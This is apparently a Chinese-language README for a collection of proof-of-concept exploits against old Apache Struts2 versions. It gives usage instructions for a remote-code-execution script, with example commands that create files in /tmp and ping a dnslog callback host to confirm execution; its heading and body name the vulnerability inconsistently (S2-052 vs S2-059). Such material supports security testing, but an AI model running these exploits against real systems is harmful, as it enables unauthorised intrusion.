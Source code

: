 # 此仓库为strus2历史版本的poc集合
## s2-052_exploit.py 漏洞利用脚本
这个 Python 脚本旨在演示 Apache Struts S2-059 漏洞的利用技术。该漏洞允许在受影响的系统上进行远程代码执行。
python环境为pyhon2.7 
### 使用方法
1. 确保已经安装了 `requests` 库 。你可以使用 `pip` 来安装它：
`pip install requests`
2. 使用以下命令运行脚本：

```
python s2-059_exploit.py -u <URL> -c <命令>

- `-u` 或 `--url`：指定存在 Apache Struts 漏洞的目标 URL。
- `-c` 或 `--command`：提供要在目标系统上执行的命令。

示例：

python s2-059_exploit.py -u http://example.com/orders/3/edit -c "/usr/bin/touch /tmp/aa /tmp/bb"
python s2-059_exploit.py -u http://example.com/orders/3/edit -c "ping l9mgao.dnslog.cn"
```
